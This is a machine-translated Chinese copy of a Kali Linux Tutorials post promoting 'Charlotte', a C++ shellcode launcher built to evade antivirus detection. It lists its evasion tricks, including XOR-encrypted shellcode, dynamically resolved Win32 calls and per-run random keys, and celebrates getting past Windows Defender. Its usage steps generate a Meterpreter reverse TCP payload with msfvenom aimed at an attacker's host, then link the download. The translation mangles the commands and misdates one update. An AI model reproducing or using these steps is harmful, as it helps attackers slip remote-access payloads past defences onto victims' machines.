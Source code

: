 # 夏洛特:C++完全未检测外壳代码启动器

> 原文：<https://kalilinuxtutorials.com/charlotte/>

[![Charlotte : C++ Fully Undetected Shellcode Launcher](img/485e7d5738e5683bddfcd9f45d281c5f.png "Charlotte : C++ Fully Undetected Shellcode Launcher")](https://1.bp.blogspot.com/-VUT6bDh0Iag/YLsqUC3ZeKI/AAAAAAAAJU4/Oub2UJiEU4wAN5TLhOnuTcOyebisdcwdQCLcBGAsYHQ/s640/charlotte.gif)

**Charlotte** 是一个 c++完全未被检测到的外壳代码启动器。

**描述**

*   2021 年 5 月 13 日:
    *   c++外壳代码启动器，2021 年 5 月 13 日完全未被检测到。
    *   win32 api 函数的动态调用
    *   外壳代码和函数名的异或加密
    *   每次运行的随机 XOR 密钥和变量
    *   在 Kali Linux 上，只需“apt-get install mingw-w64*”就可以了！
*   2021 年 5 月 17 日:
    *   随机字符串长度和 XOR 密钥长度

**Antiscan.me**

![](img/a212c6839cae5b967321bec28d81dd2c.png)

**用途**

git 克隆存储库，用命名 beacon.bin 生成 shellcode 文件，并运行 charlotte.py

**举例:**

**git 克隆[https://github.com/9emin1/charlotte.git](https://github.com/9emin1/charlotte.git)&&apt-get 安装 mingw-w64*
cd 夏洛特
MSF venom-p windows/x64/meter preter _ reverse _ TCP LHOST = $ YOUR _ IP LPORT = $ YOUR _ PORT-f raw>beacon . bin
python Charlotte . py
盈利**

经 msfvenom -p 测试(如。gif POC 如下)和钴罢工原始格式有效载荷

![](img/16ca897a18311f6e54f54e278b6080d6.png)

**更新 1.1 版**

2011 年 5 月 17 日:

显然微软的 Windows Defender 能够检测到。DLL 二进制文件，他们是如何标记它的？通过查找几个 16 字节大小的 XOR 密钥，将其更改为 POC 中显示的 9。下面的 gif 显示它现在再次未被发现，欢呼。

![](img/7fe5a6b15eef8e4affb04803632ed5f9.png)[**Download**](https://github.com/9emin1/charlotte)